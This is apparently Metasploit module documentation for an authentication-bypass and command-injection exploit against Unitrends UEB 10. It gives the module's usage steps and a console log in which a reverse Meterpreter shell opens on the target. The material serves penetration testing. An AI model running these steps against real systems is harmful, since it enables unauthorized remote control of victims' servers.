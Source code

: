 ## Vulnerable Application

  Unitrends UEB 10 http api/storage rce

  This exploit leverages a sqli vulnerability for authentication bypass,
  together with command injection for subsequent RCE.

## Verification Steps

  1. ```use exploit/linux/http/ueb10_api_systems ```
  2. ```set lhost [IP]```
  3. ```set rhost [IP]```
  4. ```exploit```
  5. A meterpreter session should have been opened successfully

## Scenarios

### UEB 10.0 on CentOS 6.5

```
msf > use exploit/linux/http/ueb10_api_systems
msf exploit(linux/http/ueb10_api_systems) > set lhost 15.0.0.177
lhost => 15.0.0.177
msf exploit(linux/http/ueb10_api_systems) > set rhost 10.20.1.202
rhost => 10.20.1.202
msf exploit(linux/http/ueb10_api_systems) > exploit

[*] Started reverse TCP handler on 15.0.0.177:4444
[*] 10.20.1.202:443 - pwn'ng ueb 10....
[*] Command Stager progress -  17.25% done (164/951 bytes)
[*] Command Stager progress -  34.17% done (325/951 bytes)
[*] Command Stager progress -  49.84% done (474/951 bytes)
[*] Command Stager progress -  65.51% done (623/951 bytes)
[*] Command Stager progress -  80.86% done (769/951 bytes)
[*] Command Stager progress -  96.85% done (921/951 bytes)
[*] Command Stager progress - 112.30% done (1068/951 bytes)
[*] Sending stage (857352 bytes) to 10.20.1.202
[*] Command Stager progress - 124.92% done (1188/951 bytes)
[*] Meterpreter session 4 opened (15.0.0.177:4444 -> 10.20.1.202:43475) at 2018-04-27 16:04:42 -0400
[*] Command Stager progress - 126.60% done (1204/951 bytes)

meterpreter > getuid
Server username: uid=48, gid=48, euid=48, egid=48
```
